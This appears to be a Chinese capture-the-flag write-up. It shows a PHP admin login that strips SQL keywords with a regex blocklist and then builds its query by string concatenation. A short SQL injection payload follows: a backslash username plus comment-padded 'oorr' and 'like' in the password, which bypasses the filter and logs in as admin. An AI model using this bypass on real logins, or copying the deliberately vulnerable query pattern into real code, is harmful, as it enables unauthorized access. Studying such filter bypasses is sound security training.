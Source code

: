 ```php
        		'/AND/i',
        		'/BY/i',
        		'/SELECT/i',
        		'/SLEEP/i',
				'/BENCHMARK/i',
        		'/TRUE/i',
        		'/FALSE/i',
				'/\d/'
			);
		$cleanedInput = preg_replace($badStrings, '', $input);
        return $cleanedInput;
	}

	$username = $_POST['username'];
	$password = $_POST['password'];

	$sanitizedUsername = sanitizeString($username);
	$sanitizedPassword = sanitizeString($password);

	$cleanUsername = removeBadStrings($sanitizedUsername);
	$cleanPassword = removeBadStrings($sanitizedPassword);

	$query = "SELECT * FROM admin WHERE username = '$cleanUsername' AND password = '$cleanPassword'";

	$data = mysqli_query($conn, $query);

	$cek = mysqli_num_rows($data);

	if ($cek > 0) {
		$_SESSION["admin_username"] = $sanitizedUsername;
		$_SESSION["admin_status"] = "true";
		header("Location: dashboard.php");
	} else {
		header("Location: index.php?msg=fail");
	}

?>

```

没啥好说的，payload如下：

```php
username=\
password=/**/oorr/**/`username`/**/like/**/`username`#
```
重在灵活，绕过其实很简单。

![在这里插入图片描述](https://img-blog.csdnimg.cn/b786eda503964484aff4a2841da6c40c.png)
直接成功登陆，按照上面的代码，此时我们$_SESSION["admin_status"] = "true" 。
